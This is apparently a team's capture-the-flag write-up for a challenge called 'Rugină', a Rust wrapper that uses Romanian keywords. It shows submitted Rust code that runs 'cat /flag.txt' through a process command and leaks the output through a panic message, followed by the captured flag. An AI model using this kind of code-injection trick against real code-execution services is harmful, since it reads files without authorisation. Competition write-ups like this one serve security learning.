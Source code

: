 rugina

Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you.

- On this one we check the [rugina](https://github.com/aionescu/rugina/tree/principal) repository on github, but we saw is a wrapper for Rust. In that case we tried some normal rust code which we found out that worked.

- First you need to add the function Principal for the compiler to work.

```rust
principal() {

}
```

![rugina-principal](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-principal.png)

- After we manage to create some code that worked, but we saw that wasn't printing anything

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    scrie!("{}", output_str.trim());
}
```

![rugina-println](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-println.png)

- We analyze the repository again to check if we made some mistakes, but we didn't. Some time passed and one of us pointed out that "only the errors are shown and not the normal print". In that case we changed from a normal println to panic and in that moment worked.

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    panic!("{}", output_str.trim());
}
```

![rugina-flag](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/Rugina/rugina-flag.png)

- And this is how we got the flag out

Flag: ctf{73523e676b04e1c2db176d8035648893648b969f5ddf5ac40f8fc5b6c15d8692}
